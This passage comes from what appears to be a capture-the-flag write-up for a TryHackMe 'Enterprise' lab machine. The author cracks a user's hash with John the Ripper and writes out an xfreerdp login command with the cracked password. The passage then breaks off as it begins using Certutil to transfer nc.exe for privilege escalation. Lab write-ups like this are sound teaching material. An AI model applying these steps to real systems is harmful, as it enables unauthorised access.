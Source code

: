 Cool, we've retrieved a hash for user bitbucket. Lets add this to a file called hash.txt and use JohnTheRipper to crack it:

![john.png](../assets/enterprise_assets/john.png)

John was able to crack the password in just a couple of seconds.

Now with these new credentials I can RDP onto the machine:

```text
┌──(ryan㉿kali)-[~/THM/Enterprise]
└─$ xfreerdp /u:bitbucket /p:littleredbucket /w:1275 /h:650 /v:10.10.118.162:3389 /cert:ignore
```

And grab the user.txt flag:

![user_flag.png](../assets/enterprise_assets/user_flag.png)

### Privilege Escalation

Because I'd rather be in the terminal rather than working over RDP (which can be slow, and buggy at times) I'll transfer over a copy of nc.exe to the target using Certutil:
